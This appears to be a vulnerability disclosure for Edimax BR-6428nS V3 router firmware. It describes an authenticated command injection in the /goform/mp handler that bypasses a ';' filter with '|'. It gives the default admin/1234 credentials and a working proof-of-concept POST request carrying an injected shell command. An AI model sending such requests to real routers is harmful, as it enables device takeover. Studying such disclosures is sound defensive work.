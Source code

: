 ## Firmware Download

you can download BR-6428nS V3 firmware from [here](https://www.edimax.com/edimax/download/download/data/edimax/global/download/wireless_routers_n300/br-6428ns_v3)

![firmware download](https://github.com/countfatcode/temp/blob/main/1.png)

## analyze

The ```mp``` function in ```/bin/webs``` can receive the command parameter and execute it using ```system``` function.

![vuln](https://github.com/countfatcode/temp/blob/main/3.jpg)

Before using the system function to execute the command, ```strchr``` will replace the ';' in the command parameter with '\0', but we can use '|' to easily bypass the check.Below is a screenshot of the exploit.

![vuln1](https://github.com/countfatcode/temp/blob/main/2.jpg)

PS You must pass basic verification before you can exploit this vulnerability.The default user/passwd is admin/1234.

![vuln2](https://github.com/countfatcode/temp/blob/main/4.png)

## POC

```python
POST /goform/mp HTTP/1.1
Host: 192.168.2.1
Content-Length: 44
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.2.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.2.1/apppoe.asp
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

command=1 %7C touch %2Fhacker %7C echo hello
```


